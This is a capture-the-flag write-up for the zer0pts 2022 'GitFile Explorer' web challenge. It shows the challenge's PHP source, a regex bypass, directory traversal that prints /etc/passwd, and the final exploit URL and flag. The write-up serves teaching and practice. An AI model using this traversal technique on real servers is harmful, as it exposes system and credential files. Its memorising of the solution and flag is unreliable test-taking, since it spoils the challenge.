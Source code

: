 # GitFile Explorer
|  Web   | Warmup |
|--------|--------|

*Read /flag.txt on the server.*

Challenge site: http://gitfile.ctf.zer0pts.com:8001/

![image](https://github.com/kanin9/ctf/blob/main/2022/zer0pts/a.png)


It looks like a simple website which allows us to *download files on GitHub/GitLab/BitBucket*

Upon clicking on the Download button, a request to  this url is made https://raw.githubusercontent.com/ptr-yudai/ptrlib/master/README.md and the response of the url is shown in the textarea.

![image](https://github.com/kanin9/ctf/blob/main/2022/zer0pts/b.png)

We now have  a basic understanding of the website , let see what we can do here to read the `/flag.txt` file.

This url  is in the address bar, when we click on the *Download* button:

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

Looks like we can substitute the service parameter



**Looking into the source code:**


```php
<?php
function h($s) { return htmlspecialchars($s); }
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}

$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
?>
```

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

The `craft_url` function creates the final url which will be used later on by combining all the parameter values.It also checks the `service` parameter using `strpos` function, to see if it's contains the word github/gitlab/bitbucket 

The returned url from `craft_url` is then stored in variable `$url`, which is again validated using `preg_match` with a regex check.

--------------


```php
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https://github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//xyz?github");
1
```

Ok we can easily bypass the check now.
Btw did you noticed the final url `https//xyz?github` , the colon is missing here after the protocol part.

If we try to pass this url to `file_get_contents` function you will get below error:

```php
php > echo file_get_contents('https//xyz?github');
PHP Warning:  file_get_contents(https//xyz?github): failed to open stream: No such file or directory in php shell code on line 1
```


*No such file or directory* ahh nice. So php treats https//xyz?github as a local directory



Let's check what happens if we put the missing colon , will we get the same error:

```php
php > echo file_get_contents('https://xyz?github');
PHP Warning:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
PHP Warning:  file_get_contents(https://xyz?github): failed to open stream: php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
```

Nope! We see that it is now treated as web URL


Hmmm... what if we try to access passwd file?
Spoiler alert, it works))) 


```php
php > echo file_get_contents('https//xyz?github/../../../../etc/passwd');
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
And after playing around a bit, I was able to read the flag:
Final url
http://gitfile.ctf.zer0pts.com:8001/?service=https//../../../%2523github&owner=ptr-yudai&repo=ptrlib&branch=master&file=../../../../../flag.txt


`zer0pts{foo/bar/../../../../../directory/traversal}`
